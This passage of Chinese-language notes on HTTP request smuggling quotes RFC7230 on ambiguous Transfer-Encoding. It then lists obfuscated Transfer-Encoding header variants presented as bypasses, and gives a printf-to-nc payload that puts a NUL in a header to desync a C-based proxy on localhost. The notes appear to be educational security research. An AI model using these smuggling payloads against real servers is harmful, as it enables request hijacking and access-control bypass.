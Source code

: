 ```http
GET /tests HTTP/1.1
Host:localhost
Dummy:Header

```

## Bad chunked Transimission

[RFC7230 3.3.3](https://www.rfc-editor.org/rfc/rfc7230#section-3.3.3)：

>   如果请求中存在 Transfer-Encoding 头字段，并且分块传输编码不是最终编码，则无法可靠地确定消息体长度； 服务器必须响应 400（Bad Request）状态码，然后关闭连接。

也就是说收到`Transfer-Encoding: chunked, zorg`的时候，要返回400

但是有很多绕过：

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked

Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

GET / HTTP/1.1
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```

## NULL in header

在一些用C写的中间件会容易产生这个问题，比如：

```http
# 2 responses instead of 3 (2nd query is wipped out by pound, used as a body)
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-\0dummy: foo\r\n'\
'length: 56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080

```
